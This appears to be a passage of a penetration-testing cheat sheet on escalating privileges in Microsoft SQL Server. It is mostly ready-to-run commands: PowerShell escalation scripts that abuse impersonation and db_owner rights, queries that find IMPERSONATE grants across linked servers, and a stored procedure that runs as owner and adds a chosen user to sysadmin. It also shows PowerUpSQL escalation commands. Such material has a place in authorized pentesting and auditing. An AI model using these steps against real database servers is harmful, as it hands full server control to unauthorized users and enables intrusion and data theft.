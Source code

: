 ````
 
#### Impersonate exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
```
Import-Module .\Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance <INSTANCE> -SqlUser <USER> -SqlPass <PASSWORD>
```
 
#### Check for impersonation through link
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Verbose -Query 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE'''
```
 
### Create Stored procedure as DB_Owner
- Prerequisites:
 - db_owner role
 - owner of the database high privileged user
 - Database set to thrustworthy (To enable xp_cmdshell)
 
#### Check the db_owner role
```
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```
 
#### Check the owner of the database
```
SELECT suser_sname(owner_sid), * FROM sys.databases
```
 
#### Create a stored procedure
```
USE <DB>;
CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember '<USER TO MAKE SYSADMIN>','sysadmin'
```

#### Execute procedure
```
USE <DB>
EXEC sp_elevate_me
```
 
#### Verify user is sysadmin
```
SELECT is_srvrolemember('sysadmin')
```

#### Automatic execution of stored procedures
- Found and abused with PowerUpSQL
```
invoke-SQLAudit
invoke-SQLEscalatedPriv
```

#### DB_Owner exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
````